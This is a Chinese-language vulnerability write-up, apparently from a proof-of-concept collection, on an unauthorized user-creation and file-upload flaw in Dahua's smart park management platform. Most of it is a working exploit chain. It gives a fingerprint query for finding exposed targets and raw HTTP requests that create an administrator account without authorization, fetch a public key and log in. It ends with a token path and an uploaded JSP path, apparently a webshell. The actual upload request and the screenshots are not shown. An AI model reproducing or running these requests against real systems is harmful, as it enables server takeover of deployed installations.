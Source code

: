 # 大华 智慧园区综合管理平台 user_save.action 任意文件上传漏洞

# 大华 智慧园区综合管理平台 user_save.action 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台存在未授权访问漏洞，攻击者通过构造特殊的请求包可以创建新用户，再利用文件上传漏洞获取服务器权限

## 漏洞影响

大华 智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

![image-20230704114553099](/images/image-20230704114553099.png)

验证POC

```
POST /admin/user_save.action HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 914
Content-Type: multipart/form-data; boundary=----fxwrpqcy
Cookie: JSESSIONID=65A8F19555DC1EFB09B5A8B4F0F6921C
User-Agent: Go-http-client/1.1

------fxwrpqcy
Content-Disposition: form-data; name="userBean.userType"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.ownerCode"

001
------fxwrpqcy
Content-Disposition: form-data; name="userBean.isReuse"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.macStat"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.roleIds"

1
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="displayedOrgName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="checkPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="userBean.groupId"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.userName"

luqaahkf
------fxwrpqcy--
```

![image-20230704114609838](D:\TMP_FILE\awesome-poc\iot\images\image-20230704114609838.png)

```
POST /WPMS/getPublicKey HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 25
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf"}
```

![image-20230704114626015](/images/image-20230704114626015.png)

```
POST /WPMS/login HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 271
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf","loginPass":"IxID6I8gKNSkCgu5UMwfRAhZpyvKKzu9q+dUngiieHiCTA52x3/uNB17NmAOletbzTOT46fLE5AOOMqMaqdDLA5rcsB3/Gql1qYwbNWLB6orKWpWEr9asUeNi/3ccIb95NUAXS1yn0l3ks94jbGT/CYbNq+JiBAeYlwcfdrqYkM=","timestamp":"16853622671401904168273612873678126378126387"}
```

![image-20230704114644296](/images/image-20230704114644296.png)

```
/admin/login_login.action?subSystemToken=87a629bc14298c1533d8b52dd63e87f7
```

![image-20230704114655894](/images/image-20230704114655894.png)

```
/upload/axqvssmz.jsp
```


